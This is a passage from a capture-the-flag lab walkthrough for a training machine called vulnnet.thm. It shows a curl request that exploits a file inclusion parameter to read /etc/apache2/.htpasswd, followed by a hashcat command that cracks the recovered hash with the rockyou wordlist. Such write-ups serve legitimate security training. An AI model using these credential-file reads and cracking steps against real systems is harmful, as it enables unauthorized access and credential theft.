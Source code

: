 ![](<../../../.gitbook/assets/image (29).png>)

Using `curl` we read the contents of `.htpasswd` and discover credentials within the file.

```
curl  "http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd"
```

![](<../../../.gitbook/assets/image (33).png>)

### Hashcat

Using hashcat against the rockyou.txt wordlist we are soon able to crack the Apache2 encrypted password.

```
 hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt
```

![](<../../../.gitbook/assets/image (19) (3) (1).png>)
